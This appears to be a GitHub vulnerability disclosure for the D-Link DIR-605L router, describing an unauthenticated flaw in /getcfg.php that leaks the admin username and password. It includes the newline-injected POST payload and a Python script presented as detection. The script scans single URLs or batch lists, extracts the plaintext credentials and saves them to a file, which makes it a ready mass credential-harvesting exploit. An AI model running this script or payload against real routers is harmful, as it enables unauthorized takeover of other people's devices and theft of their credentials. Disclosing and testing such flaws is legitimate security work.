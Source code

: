 # D-LINK-DIR-605L 

## Sensitive information disclosure vulnerability in D-Link dir-605 Hardware Version : B2 Firmware Version : 2.01MT

Sensitive information disclosure vulnerability exists in D-Link dir-605 Hardware Version : B2 Firmware Version : 2.01MT. An attacker can obtain a user name and password by forging a post request to the / getcfg.php page


## harm

An attacker can access this page without authorization, obtain the user name and password in plaintext, and obtain background management privileges after logging in to the background


## Test method
1. Visit the d-link-dir-605L background login page

![image](https://user-images.githubusercontent.com/90023952/131968944-a5cc3503-d2b9-4394-9a6b-7aaf6b7fdce9.png)

2. Enter any password, then grab the packet and modify the packet content as follows

![image](https://user-images.githubusercontent.com/90023952/131959930-bdc051b1-e234-4803-972d-adf58ddeb554.png)

![image](https://user-images.githubusercontent.com/90023952/131959858-ace71dc7-41c0-4f25-852d-ecc01f2016fd.png)

3.Use the obtained user name and password to successfully log in to the background

![image](https://user-images.githubusercontent.com/90023952/131968995-dc5eee6b-049f-4144-8d3d-a2f8acfe9099.png)

## Script automation detection

```
import requests
import argparse
import re
import urllib3
urllib3.disable_warnings()
parser = argparse.ArgumentParser(description='api help')
parser.add_argument('-u','--url', help='Please Input a url!',default='')
parser.add_argument('-r','--read', help='Please Input a file!',default='')
args=parser.parse_args()
url=args.url
file=args.read

if url !="":
    url=url+"/getcfg.php"
    header={
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Content-Type":"application/x-www-form-urlencoded",
    "Cookie":"",
    "X-Forwarded-For":"127.0.0.1"
            }
    data = ("SERVICES=DEVICE.ACCOUNT&AUTHORIZED_GROUP=1%0a")
    response=requests.post(url,data=data,headers=header,verify=False,timeout=10)
    print(response.text)
    if  "DEVICE.ACCOUNT" in response.text and response.status_code == 200:
        print("[" + url + "]" + "[===dangerous===]")
    else:
        print("["+url+"]"+"[safe]")

if file !="":
    txt=file
    f=open(txt,'r+')
    for i in f.readlines():
        url=i.strip()
        url=url+"/getcfg.php"
        header={
        "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
        "Content-Type":"application/x-www-form-urlencoded",
        "Cookie":"",
        "X-Forwarded-For": "127.0.0.1"
        }
        data = ("SERVICES=DEVICE.ACCOUNT&AUTHORIZED_GROUP=1%0a")
        try:
            response=requests.post(url,data=data,headers=header,verify=False,timeout=10)
            if "DEVICE.ACCOUNT" in response.text and response.status_code == 200:
                name = re.findall('<name>.*', response.text)
                password = re.findall('<password>.*', response.text)
                print("[" + url + "]" + "[===dangerous===]")
                w = open("DIR-605-Vulnerability-file.txt", "a")
                w.write(url + '\r\n' + repr(name) + repr(password) + '\r\n')
            else:
                print("[" + url + "]" + "[safe]")
        except Exception as e:
            print("["+url+"]"+"[safe]",format(e))


```
1. Detect a single URL

python D-LINK-DIR-605.py -u http://xxx.xxx.xxx.xxx

![image](https://user-images.githubusercontent.com/90023952/131969274-a2d83a61-02b6-4bbf-af98-d74d71336117.png)

2. Batch inspection

python D-LINK-DIR-605.py -r file.txt

![image](https://user-images.githubusercontent.com/90023952/131969509-897cdfa0-25e4-4f5f-8b68-3c99b3deb6d1.png)

After the batch detection script is executed, a file named "dir-605-vulnerability-file. TXT" will be generated in the current folder, with the contents of vulnerability URL and explored user name and password

![image](https://user-images.githubusercontent.com/90023952/131969548-98b17445-98c1-4ce1-8b0a-284ed2430259.png)

![image](https://user-images.githubusercontent.com/90023952/131969592-f7bc2332-458d-4476-be90-9ac6e5e72ac2.png)





